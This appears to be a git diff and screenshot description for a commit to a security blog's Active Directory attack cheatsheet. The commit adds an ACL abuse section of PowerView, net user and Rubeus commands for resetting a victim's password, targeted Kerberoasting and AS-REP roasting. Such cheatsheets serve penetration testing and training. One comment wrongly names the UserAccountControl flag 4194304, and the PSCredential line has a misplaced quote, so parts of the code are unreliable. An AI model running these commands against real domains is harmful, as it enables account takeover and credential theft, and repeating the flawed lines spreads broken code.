

Before and after one commit to Vorkharium/vorkharium.github.io, a Jekyll site: the page built from _posts/2024-11-01-Attacking-Active-Directory-Cheatsheet.md, in a window 1280 px wide and 1400 px high, scrolled down 18154 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update 2024-11-01-Attacking-Active-Directory-Cheatsheet.md

````diff
--- a/_posts/2024-11-01-Attacking-Active-Directory-Cheatsheet.md
+++ b/_posts/2024-11-01-Attacking-Active-Directory-Cheatsheet.md
@@ -332,7 +332,7 @@ dir /s *pass* == *cred* == *vnc* == *.config*
 ```shell
 # Native Runas
 # Local - Changing to user "jane"
-runas /user:jane cmd # # Enter the password now when asked
+runas /user:jane cmd # Enter the password now when asked
 
 # Domain - Changing to user "john"
 runas /netonly /user:vorkharium.com\john cmd
@@ -617,10 +617,40 @@ samdump2 SYSTEM SAM
 ```shell
 Comming soon.
 ```
-### ACLs
+### ACL Abuse Attacks
+Note: We can enumerate ACLs using BloodHound too. But using PowerView.ps1 can give us some results that wouldn't show up on BloodHound otherwise.
 ```shell
-Comming soon.
+# Enumerating ACLs with PowerView.ps1
+# ACLs Enumeration with NameToSid
+$sid = Convert-NameToSid -Name john
+Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid}
+
+# Detect Objects with ACLs (GenericAll) - Replace GenericAll for any other right, like WriteDacl
+Get-ObjectAcl -DistinguishedName "dc=vorkharium,dc=com" -ResolveGUIDs |
+Where {	$_.ObjectType -match 'replication-get' -or $_.ActiveDirectoryRights -match 'GenericAll' }
+# Or
+Get-DomainObjectAcl -TargetIdentity "dc=vorkharium,dc=com" -ResolveGUIDs |
+Where {	$_.ObjectType -match 'replication-get' -or $_.ActiveDirectoryRights -match 'GenericAll' }
+
+# GenericAll on User to Change Password, Kerberoast and AS-REP Roast
+# 1. Change the vulnerable user password using:
+
+net user john NotPassword123 /domain
+
+# 2. Kerberoast the vulnerable user after assigning an SPN
+
+$Pass = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
+$Cred = New-Object System.Management.Automation.PSCredential('vorkharium.com\john, $Pass')
+Set-DomainObject -Credential $Cred -Identity targetusername -Set @{serviceprincipalname="nonexistant/fake"}
+.\Rubeus.exe kerberoast /user:targetusername /nowrap
+Set-DomainObject -Credential $Cred -Identity targetusername -Clear serviceprincipalname -Verbose
+
+# 3. AS-REP Roast the vulnerable user after disabling pre-authentication for the vulnerable user
+Set-DomainObject -Identity targetusername -XOR @{UserAccountControl=4194304}
+# 4194304 sets the PASSWD_NOTREQD flag, allowing the account to operate without a required password
 ```
+More ACLs Abuse Attacks on https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse
+
 ### MSSQL to gain Shell Access
 ```shell
 Comming soon.
````
